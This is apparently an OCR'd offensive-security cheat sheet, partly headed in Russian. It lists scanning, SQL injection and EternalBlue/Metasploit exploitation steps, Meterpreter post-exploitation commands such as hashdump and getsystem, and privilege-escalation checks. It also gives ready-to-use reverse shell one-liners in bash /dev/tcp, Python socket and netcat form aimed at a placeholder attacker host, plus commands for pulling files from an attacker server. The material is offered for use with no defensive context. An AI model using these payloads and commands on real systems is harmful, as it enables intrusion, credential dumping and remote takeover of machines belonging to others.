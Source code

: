 ```
# ─── RECONNAISSANCE ───
nmap -sS -sV -O target.com                    # TCP SYN + versions + OS
nmap -sU --top-ports 100 target.com           # UDP top ports
masscan -p1-65535 target.com --rate=1000      # Fast port scan

# ─── WEB APPLICATION TESTING ───
dirb http://target.com                         # Directory brute force
nikto -h http://target.com                     # Web vulnerability scan
sqlmap -u "http://site.com/page.php?id=1"     # SQL injection testing

# ─── EXPLOITATION ───
msfconsole                                     # Start Metasploit
search ms17-010                                # Search for exploits  
use exploit/windows/smb/ms17_010_eternalblue   # Use specific exploit

# ─── POST-EXPLOITATION ───
getuid                                         # Current user (Meterpreter)
getsystem                                      # Escalate privileges
hashdump                                       # Dump password hashes
download file.txt                              # Download file

# ─── PRIVILEGE ESCALATION (Linux) ───
find / -perm -4000 2>/dev/null                # Find SUID files
sudo -l                                        # Check sudo permissions
cat /etc/passwd                                # List users
ps aux                                         # Running processes

# ─── PRIVILEGE ESCALATION (Windows) ───
whoami /priv                                   # Current privileges
net users                                      # List users
systeminfo                                     # System information
wmic service list brief                        # List services
```

### Полезные одноразовые команды

```bash
# Reverse shell payloads
bash -i >& /dev/tcp/attacker_ip/4444 0>&1                    # Bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP",PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'  # Python
nc -e /bin/sh attacker_ip 4444                               # Netcat

# File transfer methods
python3 -m http.server 8000                                  # Simple HTTP server
scp file.txt user@target:/tmp/                               # SCP transfer  
curl http://attacker/file.txt -o file.txt                    # Download with curl
wget http://attacker/file.txt                                # Download with wget

# Encoding/Decoding
echo "data" | base64                                          # Base64 encode
echo "ZGF0YQ==" | base64 -d                                  # Base64 decode
echo "data" | xxd                                             # Hex dump
```
